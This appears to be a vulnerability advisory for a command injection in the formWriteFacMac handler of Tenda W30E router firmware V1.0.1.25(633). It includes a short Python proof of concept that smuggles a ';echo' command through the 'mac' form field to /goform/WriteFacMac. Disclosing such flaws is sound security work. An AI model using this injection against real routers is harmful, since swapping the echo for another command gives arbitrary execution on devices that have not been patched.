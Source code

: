 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240319225415852](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225415852.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320003842782](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320003842782.png)
